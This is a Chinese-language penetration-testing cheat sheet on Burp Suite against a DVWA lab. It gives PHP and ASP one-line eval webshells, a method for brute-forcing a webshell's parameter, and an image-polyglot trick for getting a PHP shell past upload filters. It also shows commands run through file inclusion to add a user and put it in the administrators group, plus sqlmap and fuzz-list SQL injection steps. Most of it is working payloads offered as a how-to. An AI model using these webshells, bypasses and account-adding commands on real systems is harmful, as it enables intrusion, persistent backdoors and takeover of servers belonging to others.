     PHP:<?php @eval($_POST['pwd']);?>
    PHP:<?php @eval(_POST['v5estOr']);?>
    <script language="php">@eval_r($_POST['cmd'])</script>
    ASP:<%eval request("v5estor")%>

一般来说,一句话木马通过POST方式的传参方式如下(以写出字符的语句为例):

    PHP:v5estor=echo "password is v5estor";
    ASP:v5estOr=response.write("password:v5estor")

已确定一句话木马地址为hack.php, 用hackbar 捕获hack.php 请求， 发送到Intruder ,将 v5estor 添加为变量，暴破一句话木马变量地址。grep - match 字段添加，password is 。 暴破后正确输出 password is 为成功为一句话木马的变量。
#### 图片马

winhex打开图片，在最后粘贴马。

### Burp Suite 破解文件上传
普通难度： 

    抓包, 1. 改 content-type即可。 image/png
    抓包, 2. 改 file-name 即可。 image/png

High级别---系统认可图片

    copy test.png/b+test.html/a a.png
    test.html:  `<script>alert(1)</script>`

用来上传php, 比如 `copy test.png/b+hack.php/a caidao.png`

hack.php 里写一句话木马  :<?php @eval(_POST['1']);?>

查看有没效果

http://192.168.1.107/dwva/vulnerabilities/fi/?page=/hackable/uploafs/caidao.png   

hackbar

URI： http://192.168.1.107/dwva/vulnerabilities/fi/?page=C:\www\DWVA\hackable/uploads/hack.png

    POST:1=echo '<pre>';system('ipconfig')
    POST:1=echo '<pre>';system('net user hack 123456/add');
    POST:1=echo '<pre>';system('net localgroup administrators hack /add'):

### Burp Suite配合SQLmap实现被动式注入发现

    User Option - Misc - Logging, √Proxy Request ,选择一个文件位置保存。
    打开文件搜索请求，确定请求存在。
    sqlmap.py -r 文件目录
    sqlmap.py -r C:\log\1.txt --batch
    找到并查看 outout文件。在txt中找到注入链接, 比如，测试
    sqlmap.py -u "http://192.168.1.102/inject.php?id=2" --dbs

### Burp Suite数据获取测试
用BP抓个包 比如 http://192.168.1.102/inject.php?id=1

在1后面加a 1$a$ a设置成字段。

Payloads- Payloads Options , Load , 找 FuzzLists目录下的 sqli-union-select
